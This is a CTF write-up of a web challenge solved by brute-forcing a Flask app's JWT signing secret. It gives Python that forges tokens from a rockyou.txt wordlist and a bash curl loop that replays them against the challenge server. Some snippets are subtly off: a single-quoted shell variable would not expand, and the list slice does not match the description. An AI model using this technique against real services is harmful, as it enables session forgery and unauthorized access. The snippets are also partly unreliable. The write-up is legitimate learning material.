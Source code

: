# Defcamp CTF Writeup
Another singular writeup ... Oh well I'm still learning, the other challenges were rather complex but reading solutions was quite interesting.

## Problem
Upon visiting the provided URL, we are presented initially with an "Access denied" html page.

After checking the html, I perused session storage and found a cookie in the form of a JWT.

It got shoved into jwt.io and the payload was b64-encoded json struct.

```js
{
    "logged_in":"false"
}
```
I changed the polarity of the boolean and tried again, and got some fun flask errors. Fun, flask backend.

I grabbed pyjwt and modified the example code to fit my purposes

```python
payload_data = {
    "logged_in": "true",
}

token = jwt.encode(
    payload=payload_data,
    key=secret
)
```

Since the secret was unknown to me, i decided to try brute-forcing with (some of) `rockyou.txt`

```python
secrets = open("rockyou.txt", 'r').readlines()[:-50]
f = open("tokens.txt", "w+")

for secret in secrets:
    token = jwt.encode(
        payload=payload_data,
        key=secret
    )
    f.write(token + "\n")

```


I then wrote a bash script to enumerate the tokens I generated (janky, i know, but it worked)

```bash
lines=$(cat tokens.txt)
for line in $lines          
do
        curl -v -s -k "GET" --cookie 'session=$line' 'http://34.89.146.147:32555/'
done
```

I tested the script to stdout for a few seconds, then get grepped for "CTF" and got the flag after 4 tries (the secret was `'password'`).

## What I learned
JWT is pronounced "jot", and secure keys should be used for signing everything because bruteforcing passwords is trivial.


